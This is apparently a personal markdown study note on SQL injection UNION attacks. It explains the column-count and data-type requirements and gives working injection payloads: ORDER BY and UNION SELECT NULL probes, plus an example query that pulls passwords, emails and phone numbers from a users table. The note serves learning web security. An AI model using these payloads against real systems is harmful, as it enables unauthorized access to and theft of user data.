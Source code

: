 ```yaml
---
Title: UNION Attacks
tags:
  - SQLi
---
```

# UNION Attacks
A union attack occurs, when we try sqli on a vulnerable statement that has a specific amount of columns to return.

In order for us to do a UNION attack, we must fulfill 2 requirements, we need to have the same amount of columns, and each columns should have the same or compatible data type, when exfiltrating it.

Example:
```sql
SELECT name, age, address FROM users WHERE name = 'kohi';
```

As you can see, it selects 3 columns to return with the condition of "where name is equals to kohi". Let's assume that name and address are varchars, and age being an integer. We can create a query as such.

Example:
```sql
SELECT name, age, address FROM users WHERE name = 'kohi' UNION SELECT password, contact_number, email FROM users;
```

As you can see, our arbitrary payload selects 3 sensitive columns, this query itself will return the values of the union select we did, instead of the first one.

___
# Identifying the attack
Of course, we won't be able to see the sql statements that is being called in the application, that is why, when we find a vulnerable parameter or endpoint, we need to first identify if we can fulfill the requirements of a union attack.

## Determining the number of columns
> Using ORDER
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

> Using UNION 
```sql
' UNION SELECT NULL--
' UNION SELECT NULL, NULL--
' UNION SELECT NULL, NULL, NULL--
```

## Determining the column data types
> Using UNION SELECT
```sql
' UNION SELECT 'a', NULL, NULL--
' UNION SELECT NULL, 'a', NULL--
' UNION SELECT NULL, NULL, 'a'--
```

The way we can use this is by looking at the errors, it would usually contain the datatype in the error.
